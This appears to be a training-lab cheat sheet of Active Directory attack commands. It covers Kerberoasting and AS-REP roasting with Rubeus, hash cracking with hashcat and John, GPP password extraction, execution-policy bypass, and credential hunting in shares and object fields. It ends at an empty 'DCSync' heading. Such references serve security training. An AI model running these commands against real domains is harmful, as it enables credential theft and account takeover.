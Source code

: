 # Kerberoasting

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `.\Rubeus.exe kerberoast /outfile:spn.txt`                   | Used to perform the Kerberoast attack and save output to a file. |
| `hashcat -m 13100 -a 0 spn.txt passwords.txt`                | Uses `hashcat` to crack Keberoastable TGS tickets. |
| `sudo john spn.txt --fork=4 --format=krb5tgs --wordlist=passwords.txt --pot=results.pot` | Uses `John the Ripper` to crack TGS tickets, and outputs to results.pot. |

# Asreproasting

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `.\Rubeus.exe asreproast /outfile:asrep.txt`                 | Used to perform the Asreproast attack and save the extracted tickets to a file. |
| `hashcat -m 18200 -a 0 asrep.txt passwords.txt --force`      | Uses `hashcat` to crack AS-REP hashes that were saved in a file. |


# GPP Passwords

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `Import-Module .\Get-GPPPassword.ps1`                        | Used to import the `Get-GPPPassword.ps1` script into the current powershell session. |
| `Get-GPPPassword`                                            | Cmdlet to automatically parse all XML files in the Policies folder in SYSVOL. |
| `Set-ExecutionPolicy Unrestricted -Scope CurrentUser`        | Used to bypass powershell script execution policy. |


# Credentials in Shares

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `Import-Module .\PowerView.ps1`                              | Used to load the `PowerView.ps1` module into memory |
| `Invoke-ShareFinder -domain eagle.local -ExcludeStandard -CheckShareAccess` | PowerShell cmdlet used to identify shares in a domain |
| `findstr /m /s /i "eagle" *.ps1`                             | Forces a search within the current directory + subdirectories for the .ps1 file containing the string "eagle" |


# Credentials in Object Properties

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `.\SearchUser.ps1 -Terms pass`                                | Script to look for specific terms in the `Description` and `Info` fields of an AD object | 

# DCSync
